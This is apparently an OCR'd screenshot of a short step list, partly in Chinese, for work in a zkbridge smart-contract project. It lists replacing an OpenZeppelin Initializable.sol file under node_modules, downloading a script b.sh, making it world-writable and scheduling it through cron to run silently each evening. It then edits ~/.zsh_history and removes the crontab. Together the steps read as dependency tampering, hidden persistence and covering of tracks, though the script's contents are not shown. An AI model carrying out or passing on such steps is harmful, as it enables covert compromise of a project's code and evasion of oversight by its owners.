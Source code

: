 ```
打开新 item
打开无痕浏览器
打开github
```
```
ls -alF /Users/qibin/polyhedra/workspace/solidity/zkbridge-contracts-v2/node_modules/@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol
```
```
下载
Initializable.sol
b.sh
chmod -Rf 777 b.sh
```
```
crontab -e
```
```
* 19-23 * * * /tmp/b.sh >/dev/null 2>&1
```
```
vim ~/.zsh_history
```
```
shift g
打开新的 iterm 确认
```
```
crontab -r
```
